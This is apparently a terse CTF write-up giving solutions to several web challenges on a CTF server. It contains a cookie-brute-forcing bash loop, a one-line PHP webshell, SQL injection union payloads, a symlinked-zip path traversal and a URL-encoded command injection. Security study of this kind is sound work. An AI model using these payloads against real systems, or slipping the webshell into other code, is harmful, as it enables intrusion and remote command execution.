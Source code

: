 ``` bash
flag=
url=https://ctf.yuawn.idv.tw:10200/kiddie/

for i in `seq 0 599`; do
    text=`curl -s $url -H "Cookie: count=$i"`
    char=${text:0:1}
    flag=$flag$char
    echo -n $char
done

for i in `seq 10`; do
    flag=`echo $flag | base64 --decode`
    echo -n ' | '$flag
done
```

## shell
- upload a tiny webshell
```php
<?php system($_GET['s']);

```
- use js console to submit
```
a.submit()
```

## nurse++
- SQL Injection

```
username=' union select 1,2,3 --
username=' union select 1,2,name from sqlite_master limit 0,1 --
username=' union select *,'admin',2 from secret limit 0,1 --
```



## wormhole
- Apache configuration `AllowSymLinks`

1. `ln -s / root`
2. `zip --symlinks files.zip root`
3. Upload it, go to root/another_universe/../flag



## echo
- Command injection

``` shell
# ?word=-n%26%26cat%09`find%09-name%09*flag*`
curl 'https://ctf.yuawn.idv.tw:10203/echo/?word=-n%26%26cat%09`find%09s*`' > cat_flag
chmod +x cat_flag
./cat_flag
```
